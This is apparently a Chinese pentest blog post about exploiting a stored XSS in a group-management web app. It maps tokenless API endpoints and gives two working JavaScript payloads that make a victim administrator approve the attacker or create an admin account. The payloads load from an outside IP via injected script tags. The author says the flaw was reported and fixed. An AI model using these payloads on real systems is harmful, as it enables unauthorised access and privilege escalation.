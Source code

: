 ```yaml
---
draft: false
date: 2018-11-14 10:36:38
title: 记一次渗透测试中利用存储型 XSS 添加用户
description: 渗透测试中遇到了一个存储型的 XSS，但是有 httponly，所以第一次尝试通过写js来攻击目标从而添加用户。
categories:
  - Pentest
tags:
  - xss
---
```


<script>
    $(document).ready(function(){
        window.location.href='/404.html';
    });
</script>

<!--

### 0x00 简单查看
拿到目标后简单看了下，是一个类似员工管理的东西，用户可以创建group，其他用户可以搜索这个group然后申请加入

每个账号都可以注册组织，然后让别人加入，加入的用户有创建者、管理员、默认成员3个角色，管理员拥有的权限就比较大了，可以查看通讯录、添加成员、删除成员等等

### 0x01 申请加入组织流程分析
走了一遍流程，注册了两个账号，一个是reber，一个是yxk

在加入某组织时会让填验证信息，组织收到申请后同意然后把用户添加到某个分组然后确定

流程大概分4步，用户申请加入group、管理员点击同意、管理员关联用户到分组或成员、确定同意用户的申请

* 用户reber搜索组织，然后提交验证消息
![80](/img/post/20181114-110536.png)

* 用户yxk在消息列表同意reber的申请
![80](/img/post/20181114-110838.png)

* yxk给reber分组，点击下一步

* 最后一步写入备注信息，点击同意按钮最终同意用户加入
![70](/img/post/20181114-111139.png)



### 0x02 请求链接分析
经过对上面流程的抓包分析测试，涉及到的有用请求有3个：管理员点击同意链接时的请求、关联到分组或成员的请求、确定同意的请求

* 用户申请加入某group时发送的数据包如下：

```
API：/a/cms/org/applyorg
POST：verification=11111&orgId=247173
```

* group管理员同意用户申请时链接如下：

```
API：/a/cms/apply/handle-accept?id=6de027c0-9a4f-490e-a5e2-d1c76cd34a70&oid=247178&name=1760048****
```
这里链接里有一个id，经过抓包发现可以通过/a/cms/apply/applymsg这个接口直接得到同意申请时的链接

* 将申请用户关联到分组或成员涉及到如下数据包：

```
API：/a/cms/apply/do.handle
POST：ID=80b49e8f-4e8c-450f-8bf4-eb809271e779&OID=247178&GID=608863&MID=0&Agree=true&Reason=111
```

可以看到，上面的请求链接中都没有token，存在CSRF，就猜想能不能构造上述请求从而通过XSS和CSRF来做一些事情

### 0x03 构造直接添加用户到group的js
由于cookie设置了httponly，不能获取到完整的cookie，所以这里尝试写js代码，实现将用户直接加入group的功能

看了上面的请求包分析后发现，如果要构造数据包实现我们的想法的话需要有：ID、OID、GID这3个id

分析后发现在/a/cms/apply/applymsg请求的返回包中有同意的链接，链接中有ID

分析后发现在/a/cms/group/treeNode请求的返回包中有OID和GID

于是用于XSS的1.js内容构造如下：

```
//因为这里要把ajax的返回值return到函数中，需要是同步请求，所以async要设为false

function get_agree_url(){//得到管理员同意用户申请的链接
    var agree_url;
    var href;
    $.ajax({
        type: 'get',
        url: '/a/cms/apply/applymsg',
        async: false,
        success: function(data){
            $(data).find('#accept').each(function(index,element){
                href = $(this).attr('href');
                if (/id=.*?name=1760048****/.test(href)){
                    agree_url = href;
                }
            });
        }
    });
    return agree_url;
}

function get_oid_gid(){//得到oid和gid
    var oid;
    $.ajax({
        type: 'post',
        url: '/a/cms/group/treeNode',
        dataType: 'json',
        async: false,
        data: 'parentId=0',
        success: function(data){
            oid = data[0]['dataObject']['orgId'];
            gid = data[0]['dataObject']['topGroupId'];
        }
    });
    return {
        'oid':oid,
        'gid':gid
    };
}

function attack(){
    var agree_url = get_agree_url();
    var id = /id=(.*?)&/.exec(agree_url)[1];
    var oid_gid = get_oid_gid();
    var oid = oid_gid['oid'];
    var gid = oid_gid['gid'];

    $.get(agree_url);//同意用户加入group

    var step2_url = '/a/cms/apply/handle-accept2?ID='+id+'&OID='+oid+'&Name=176004****'+'&GID='+gid+'&MID=0';
    $.get(step2_url);//关联到分组或成员

    $.post('/a/cms/apply/do.handle',{ID:id,OID:oid,GID:gid,MID:0,Agree:true,Reason:'111'});//最终确认同意，设置备注
}

attack();
```

### 0x04 进行XSS攻击添加用户
用户reber尝试加入yxk的组织并提交恶意代码：```test<script src=//114.115.123.123/wyb/1.js></script>```
![80](/img/post/20181114-121432.png)

当用户yxk浏览用户申请列表页面时触发XSS
![80](/img/post/20181114-121938.png)

回到reber用户，可以看到已经加入了yxk的组织，可以进行一些操作了
![80](/img/post/20181114-122147.png)

### 0x05 更进一步，添加为管理员
刚开始分析发现通过上面的过程先添加用户，然后再添加用户为管理员，比较麻烦

后续发现其实不用这么麻烦，直接用另外一个接口发送ajax请求就能直接添加管理员用户

添加管理员的2.js如下：

```
function get_gid(){
    $.ajax({
        type: 'post',
        url: '/a/cms/group/treeNode',
        dataType: 'json',
        async: false,
        data: 'parentId=0',
        success: function(data){
            gid = data[0]['dataObject']['topGroupId'];
        }
    });
    return gid;
}

var gid = get_gid();

$.post('/a/cms/member/do.save',{memberId: 0,userId: '',mobile: '176004****',name: 'aaa',pinyin: 'aaa',groupId: 608863,group: '默认分组',roleId: 2,duty: '',sex: 0,sort: '10000','TEL;CELL': '','TEL;WORK': '',EMAIL: ''});
```

提交验证信息为：```test<script src=//114.115.123.123/wyb/2.js></script>```

当yxk访问请求的list页面时即可直接添加新用户aaa到group并且是管理员账户： 
![80](/img/post/20181114-123006.png)

好了，打完收工！

<br/>
PS：漏洞已提交，并早在3个月前修复

 -->